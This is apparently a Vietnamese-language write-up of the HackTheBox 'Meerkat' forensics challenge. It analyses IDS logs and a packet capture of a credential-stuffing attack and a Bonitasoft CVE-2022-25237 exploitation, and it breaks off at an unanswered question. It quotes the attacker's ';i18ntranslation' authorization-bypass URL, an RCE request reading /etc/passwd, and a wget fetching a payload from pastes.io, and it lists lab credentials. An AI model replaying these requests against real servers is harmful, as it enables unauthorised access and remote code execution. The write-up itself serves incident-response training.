




### Description 
> As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

### Link challenge 
> https://app.hackthebox.com/sherlocks/Meerkat

### Solution 
#### Quá trình phân tích sơ bộ
- Challenge cho ta 2 file 1 file pcap và 1 file json, mở file json ra thì dữ liệu khá là khó nhìn. Nhưng có thể dễ dàng xác định được nó theo format như thế này 
```
{"ts":"2023-01-19T15:44:49.669971Z","event_type":"alert","src_ip":"89.248.165.187","src_port":52870,"dest_ip":"172.31.6.44","dest_port":10227,"vlan":null,"proto":"TCP","app_proto":null,"alert":{"severity":2,"signature":"ET CINS Active Threat Intelligence Poor Reputation IP group 82","category":"Misc Attack","action":"allowed","signature_id":2403381,"gid":1,"rev":80387,"metadata":{"signature_severity":["Major"],"former_category":null,"attack_target":["Any"],"deployment":["Perimeter"],"affected_product":["Any"],"created_at":["2013_10_08"],"performance_impact":null,"updated_at":["2023_01_18"],"malware_family":null,"tag":["CINS"]}},"flow_id":519087154346259,"pcap_cnt":6292,"tx_id":null,"icmp_code":null,"icmp_type":null,"tunnel":null,"community_id":"1:+BXi7peXaBKuiEO4y3Ya0UlQMMQ="}
```
- Có vẻ như đây là dữ liệu được xuất ra từ 1 hệ thống IPS hay IDS nào đó. Tuy nhiên tại dòng `ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)`, sau khi phát hiện được xâm nhập hacker vẫn upload được file RCE lên hệ thống (chỗ này phải phân tích tới file pcap thì mới hiểu được) thì khả năng cao nó là 1 hệ thống IDS, vì IDS không cá khả năng phản ứng lại các hoạt động tấn công.

- 
- Với file json này mình dùng chế độ `Generic Code Beautify` của CyberChef để sửa mã lại cho dễ đọc tí.
- 
- 
- Ở đây ta thấy có 1 vài giao thức quen thuộc như ICMP, UDP, TCP. Check lần lượt từng cái. 
- Đầu tiên là UDP trước, chủ yếu là các giao thức NTP 
```
Giao thức NTP (Network Time Protocol) là một giao thức để đồng bộ đồng hồ của các hệ thống máy tính thông qua mạng dữ liệu chuyển mạch gói với độ trễ biến đổi. Giao thức này được thiết kế để tránh ảnh hưởng của độ trễ biến đổi bằng cách sử dụng bộ đệm jitter.
``` 
- Có vẻ không liên quan lắm 👀, ta chuyển qua TCP.
- Ở đây ta thấy có 1 vài gói http rất khả nghi 
- 
- Lọc theo giao thức http có rất nhiều gói như thế này, có vẻ đây là 1 cuộc tấn công từ điển.
- Sơ lược là như vậy, bây giờ ta đi sâu vào để trả lời các câu hỏi chính thôi 😎
#### We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
- Kiểm tra file json (đây là file log của IDS nên kiểm tra đầu tiên), tại dòng này
```
{
    "ts":"2023-01-19T15:39:19.357536Z", "event_type":"alert", "src_ip":"138.199.59.221", "src_port":53401, "dest_ip":"172.31.6.44", "dest_port":8080, "vlan":null, "proto":"TCP", "app_proto":"http", "alert": {
        "severity":1, "signature":"ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)", "category":"Attempted Administrator Privilege Gain", "action":"allowed", "signature_id":2036818, "gid":1, "rev":1, "metadata": {
            "signature_severity":["Major"], "former_category":["EXPLOIT"], "attack_target":["Server"], "deployment":["SSLDecrypt", "Perimeter"], "affected_product":null, "created_at":["2022_06_03"], "performance_impact":null, "updated_at":["2022_06_03"], "malware_family":null, "tag":null, "cve":["CVE_2022_25237"]
        }

    }, "flow_id":1189443480456512, "pcap_cnt":3789, "tx_id":5, "icmp_code":null, "icmp_type":null, "tunnel":null, "community_id":"1:YtIxZkDbzqB66/rxN0AR9lNaLug="
}
```
- 1 cảnh báo được hiện lên với `signature` : `ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)`, và category là `Attempted Administrator Privilege Gain (Đã cố gắng giành được quyền quản trị viên)` và CVE được phát hiện là `CVE_2022_25237`
- Rõ ràng 1 cuộc tấn công đang được nhắm vào `Bonitasoft`
> Bonitasoft

#### We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?


- Bây giờ thì quay lại với wireshark và theo dõi tiếp các luồng http lúc nãy còn đang dang dỡ, mình viết 1 script python nhỏ sử dụng pyshark để xuất các giá trị username, password cùng status code của nó 
```
import pyshark

# Đặt đường dẫn đến tshark.exe
tshark_path = r'F:\CTF tool\WireShark\tshark.exe'
filepath = r'D:\share\Hackthebox - VIP chall\sherlocks\meerkat - EASY\meerkat.pcap'

# Tạo đối tượng FileCapture với bộ lọc HTTP
cap = pyshark.FileCapture(filepath, tshark_path=tshark_path, display_filter='http')

# Số lượng gói tin cần xử lý
number_packet = 280

# Lặp qua từng gói tin
for i in range(number_packet):
    packet_str = str(cap[i])
    
    username_data = ""
    password_data = ""
    status_code_data = ""

    # Tìm và lưu dữ liệu username
    if "username" in packet_str:
        start_index = packet_str.find("username")
        end_index = packet_str.find("\n", start_index)
        username_data = packet_str[start_index:end_index].strip()

    # Tìm và lưu dữ liệu password
    if "password" in packet_str:
        start_index_2 = packet_str.find("password")
        end_index_2 = packet_str.find("\n", start_index_2)
        if end_index_2 == -1:  # Nếu không có ký tự xuống dòng, lấy đến cuối chuỗi
            end_index_2 = len(packet_str)
        password_data = packet_str[start_index_2:end_index_2].strip()
    
    # Tìm và lưu mã trạng thái HTTP
    if "Status Code" in packet_str:
        start_index = packet_str.find("Status Code")
        end_index = packet_str.find("\n", start_index)
        status_code_data = packet_str[start_index:end_index].strip()
    
    # Chỉ in nếu tìm thấy username, password hoặc status code
    if username_data or password_data or status_code_data:
        print(f"{username_data} - {password_data} - {status_code_data}")
```

<details>
<summary>
Đây là output
</summary>

```
Status Code Found:
	Status Code: 302
Status Code Found:
	Status Code: 302
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Clerc.Killich@forela.co.uk"
	password" = "vYdwoVhGIwJ"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Lauren.Pirozzi@forela.co.uk"
	password" = "wsp0Uy"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Merna.Rammell@forela.co.uk"
	password" = "u7pWoF36fn"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Gianina.Tampling@forela.co.uk"
	password" = "maUIffqQl"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Konstance.Domaschke@forela.co.uk"
	password" = "6XLZjvD"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Vida.Murty@forela.co.uk"
	password" = "4ulecG"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Elka.Cavet@forela.co.uk"
	password" = "n1aSdc"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Noam.Harvett@forela.co.uk"
	password" = "VDt8bh"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Norbie.Bartolini@forela.co.uk"
	password" = "GV2zlop"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Cariotta.Whife@forela.co.uk"
	password" = "x3hoU0"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Mella.Amsberger@forela.co.uk"
	password" = "4nIYM5WqN"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Cyndy.Element@forela.co.uk"
	password" = "ybWxct"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Imelda.Braben@forela.co.uk"
	password" = "dC7bjGLYB"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Marven.Samuel@forela.co.uk"
	password" = "LPU0qQnt108"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Osborne.Humpatch@forela.co.uk"
	password" = "OJ4WHcI4D"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Talya.Sterman@forela.co.uk"
	password" = "3gCERZ2JMh"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Drusilla.Nice@forela.co.uk"
	password" = "l35Euh0T3Am"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Tobiah.Horstead@forela.co.uk"
	password" = "fp0OQl"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Kayley.Northway@forela.co.uk"
	password" = "s9MC7mkdVU"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Adora.Mersh@forela.co.uk"
	password" = "85Hh8JZkJR6"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Guss.Botten@forela.co.uk"
	password" = "sVMRgGmv0sE"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Cordelie.Rostron@forela.co.uk"
	password" = "mAtdcJh"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Ellerey.Bierling@forela.co.uk"
	password" = "Nva0nKTz"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Berny.Ferrarin@forela.co.uk"
	password" = "lPCO6Z"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Nefen.Heffernon@forela.co.uk"
	password" = "VR0ZA8"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Skipton.Pickerill@forela.co.uk"
	password" = "lcsui1Nu"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Nola.Crichmer@forela.co.uk"
	password" = "QGa58W3L"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Sharon.Claus@forela.co.uk"
	password" = "3X4d06I"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Bernelle.Draycott@forela.co.uk"
	password" = "MmxlUAWe0oW"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Samaria.Percifull@forela.co.uk"
	password" = "CUgc3hzHw5g"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Puff.Yapp@forela.co.uk"
	password" = "M08Aae"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Cynthia.Hatto@forela.co.uk"
	password" = "z0NXI6"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "seb.broom@forela.co.uk"
	password" = "g0vernm3nt"
Status Code Found:
	Status Code: 204
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Alexi.Siman@forela.co.uk"
	password" = "iUS11pX"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Pete.Panons@forela.co.uk"
	password" = "BKdkGTB"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Rakel.Cawley@forela.co.uk"
	password" = "h4gW3YLwnW9t"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Merl.Lavalde@forela.co.uk"
	password" = "BgfiOVXNLBc"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Antoinette.Vittel@forela.co.uk"
	password" = "bGtHL8cg"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Stanleigh.Tuckwell@forela.co.uk"
	password" = "VQCk8TGn3"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Denny.Gepson@forela.co.uk"
	password" = "q2JqCSXk69"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Aline.Rivallant@forela.co.uk"
	password" = "gFixyf1nGgf"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Jordain.Eykel@forela.co.uk"
	password" = "rnMXBNdNW0"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Gypsy.Henric@forela.co.uk"
	password" = "lLPqVgmHs5F"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Adrea.Shervil@forela.co.uk"
	password" = "7YoFhtUq"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Jenilee.Pressman@forela.co.uk"
	password" = "3eYwLOKhQEcl"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Fredrick.Gerraty@forela.co.uk"
	password" = "W1By0HUByDHO"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Ebony.Oleszcuk@forela.co.uk"
	password" = "uAWnyfKOjQM"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Garrard.Colisbe@forela.co.uk"
	password" = "jMi9iP"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Farleigh.Schouthede@forela.co.uk"
	password" = "JzI6Dvhy"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Ahmed.Monteaux@forela.co.uk"
	password" = "6uskrtw8U"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Griffith.Lumm@forela.co.uk"
	password" = "QPepd0M8wBK"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Winston.Conville@forela.co.uk"
	password" = "cEmh5W2Vh"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Pat.Kloisner@forela.co.uk"
	password" = "N8ZwVMzF6"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Teresita.Benford@forela.co.uk"
	password" = "uvYjtQzX"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Mathian.Skidmore@forela.co.uk"
	password" = "TQSNp6XrK"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "Gerri.Cordy@forela.co.uk"
	password" = "w15pvWGTK"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "seb.broom@forela.co.uk"
	password" = "g0vernm3nt"
Status Code Found:
	Status Code: 204
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "seb.broom@forela.co.uk"
	password" = "g0vernm3nt"
Status Code Found:
	Status Code: 204
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Username Found:
	username" = "install"
	password" = "install"
Status Code Found:
	Status Code: 401
Username Found:
	username" = "seb.broom@forela.co.uk"
	password" = "g0vernm3nt"
Status Code Found:
	Status Code: 204
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200
Status Code Found:
	Status Code: 200


```

</details>

- Có thể thấy rằng tài khoản : `seb.broom@forela.co.uk` và mật khẩu : `g0vernm3nt` trả về status code là 204. Từ đây ta biết được đâu là tài khoản đúng. 
```
Username Found:
	username" = "seb.broom@forela.co.uk"
	password" = "g0vernm3nt"
Status Code Found:
	Status Code: 204
```
- Tất cả đang được thực hiện bruteforce, ban đầu mình nghĩ là `Dictionary Attack` tuy nhiên điều đó không đúng. Nếu không phải là `Dictionary Attack` thì chỉ có thể là `Credential Stuffing` (nhồi thông tin xác thực)
```
Credential Stuffing là một hình thức tấn công mạng trong đó kẻ tấn công sử dụng danh sách các cặp username và password đã bị lộ từ các vi phạm dữ liệu để thử đăng nhập vào các tài khoản khác trên các nền tảng khác nhau. Mục tiêu là khai thác thói quen tái sử dụng mật khẩu của người dùng, dẫn đến khả năng chiếm đoạt tài khoản nếu người dùng sử dụng cùng một thông tin đăng nhập trên nhiều dịch vụ.
```
> Credential Stuffing

#### Does the vulnerability exploited have a CVE assigned - and if so, which one?
- Phần này mình đã trình bày ở phần phân tích sơ bộ nên mình sẽ không phân tích lại
> CVE-2022-25237
#### Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?
<details>
<summary>
Nghiên cứu thêm về CVE_2022_25237 
</summary>
CVE-2022-25237 là một lỗ hổng bảo mật liên quan đến Bonita Web 2021.2, một nền tảng quản lý quy trình kinh doanh (BPM). Lỗ hổng này cho phép bỏ qua xác thực và ủy quyền do cấu hình không đúng của bộ lọc bảo mật (RestAPIAuthorizationFilter).

**Tóm tắt lỗ hổng:**
- Loại lỗ hổng: Bỏ qua xác thực/ủy quyền.
- Sản phẩm bị ảnh hưởng: Bonita Web 2021.2.
- Mô tả: Kẻ tấn công có thể khai thác lỗ hổng này bằng cách thêm ;i18ntranslation hoặc /../i18ntranslation/ vào cuối URL. Việc này dẫn đến việc bỏ qua các kiểm tra xác thực hoặc ủy quyền, cho phép truy cập trái phép vào các điểm cuối API đặc quyền.
- Hậu quả: Kẻ tấn công có thể thực hiện các hành động đặc quyền thông qua API và tiềm ẩn khả năng thực thi mã từ xa (RCE) trên hệ thống bị ảnh hưởng.
 - CVE này có Base Score lên đến 9.8 
</details>

> i18ntranslation 

#### How many combinations of usernames and passwords were used in the credential stuffing attack?
- Dựa vào output của script ở trên ta dùng command line để lọc số lượng các username khác nhau
- Sử dụng command `cat output.txt | grep username | sort | uniq |  wc -l`
> 56
#### Which username and password combination was successful?
- Tại username" = "seb.broom@forela.co.uk" và password" = "g0vernm3nt" thì status code là 204 => Đăng nhập thành công 
> seb.broom@forela.co.uk:g0vernm3nt

#### If any, which text sharing site did the attacker utilise?
- Ta theo dõi luồng http xem hacker làm gì 

- Hacker upload 1 tệp có tên `rce_api_extension.zip ` thông qua `CVE-2022-25237`, có thể thấy rõ tại đường dẫn `/bonita/API/pageUpload;i18ntranslation?action=add`
- Sau đó gửi truy vấn để trích xuất các dữ liệu 
```
GET /bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd (đọc file /etc/passwd)


{"p":"0","c":"1","cmd":"cat /etc/passwd","out":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:102:105::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nsyslog:x:104:111::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:113::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:114::/nonexistent:/usr/sbin/nologin\nsshd:x:109:65534::/run/sshd:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nlandscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin\nfwupd-refresh:x:112:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin\nec2-instance-connect:x:113:65534::/nonexistent:/usr/sbin/nologin\n_chrony:x:114:121:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin\nubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash\nlxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false\n","currentDate":"2023-01-19"}
```
- Ở 1 luồng khác, hacker lợi dụng rce để tải file xuống 
```
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
```

> pastes.io

#### Please provide the filename of the public key used by the attacker to gain persistence on our host.
